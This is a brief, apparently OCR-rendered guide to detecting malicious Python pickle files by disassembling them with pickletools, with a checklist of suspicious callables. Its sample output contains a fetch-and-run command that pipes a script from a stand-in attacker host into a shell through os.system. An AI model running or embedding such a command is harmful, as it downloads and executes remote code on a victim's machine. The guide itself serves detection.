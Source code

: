 DETECTING POISONED Pickles

If you have '.pkl or .pickle' files and you to analyze or detect malicious intent - you can;

1 . Static Analysis of the Pickle File
= use Python's built-in pickletools to disassemble the pickle bytecode:

{ bash
    python -m pickletools malicious_task.pickle
}
It outputs a human-readable version like:

GLOBAL 'os system'
STRING 'curl http://attacker.com/malware.sh | sh'
TUPLE 
REDUCE
STOP

BEWARE - If you see: 
- os.system, subprocess, eval, exec, __import__, etc.
- REDUCE or GLOBAL opcodes with suspicious callables

-> The pickle is likely malicious.
